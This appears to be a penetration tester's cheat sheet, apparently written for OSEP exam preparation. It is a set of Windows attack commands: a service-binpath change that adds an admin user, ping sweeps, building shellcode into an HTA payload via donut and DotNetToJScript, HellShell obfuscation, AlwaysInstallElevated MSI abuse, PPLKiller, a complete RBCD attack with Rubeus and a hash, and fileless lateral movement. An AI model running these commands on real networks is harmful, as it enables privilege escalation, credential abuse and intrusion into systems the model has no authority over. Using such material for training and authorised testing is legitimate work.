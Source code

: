 Service Modify
---------------------
```powershell
sc config SNMPTRAP binpath= "cmd.exe /c net localgroup administrators john /add" start= "demand" obj= "NT AUTHORITY\SYSTEM" password= ""
```
```bash
for i in {1..255} ;do (ping -c 1 192.168.110.$i | grep "bytes from"|cut -d ' ' -f4|tr -d ':' &);done
cmd.exe /C '(for /L %a IN (1,1,254) DO ping /n 1 /w 1 192.168.210.%a) | find "Reply"'
```

HTA JS PAYLOAD
---------------------
DotNetToJScript
```powershell
C:\Users\ctf\Downloads\donut_v1.1\donut.exe -a 2 -f 1 -o ipv4.bin -i ipv4shell.exe
```
Change in TestClass.cs file url

Build ExampleAssemly.dll


Generate the js file
```
C:\Users\ctf\Downloads\release_v1.0.4\DotNetToJscript.exe ExampleAssembly.dll --lang=JScript --ver=4 -o payload.js
```

```hta
<html>
<head>
<script language="JScript">
// ADD JS HERE
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

IPV4Shell - HellShell
---------------------
URL -> https://github.com/NUL0x4C/HellShell

```powershell
C:\Users\ctf\Downloads\HellShell-main\HellShell-main\x64\Release\HellShell.exe payload.bin ipv4
# Generates Ipv4Fuscation.cpp -> Modify 
Z:\Offsec\OSEP\ipv4shell\src\ipv4shell.c
```
Modify the IP values
and compile to exe

Install AlwaysElevated
-----------------------
```powershell
Create MSI Package to run
dotnet build -p:Platform=x64 -c Release
cmd.exe /c "msiexec /quiet /qn /i InstallMe.msi"
```

Run the combined ligolo agent with ApplockerBypass
-----------------------

If LSA Protection 
--------------------
```powershell
PPLKiller.exe /installDriver
```
RBCD
--------------------
```powershell
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)
$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))" 
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer file05 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/file05 /ptt
```

Lateral Movement
---------------------
 -> https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Fileless%20Lateral%20Movement

```powershell
lat.exe <server> <service name> <payload.exe>
Lat.exe file05 SensorService “C:\windows\tasks\inj.exe”
```

uacbypass.ps1
SigmaPotato.exe
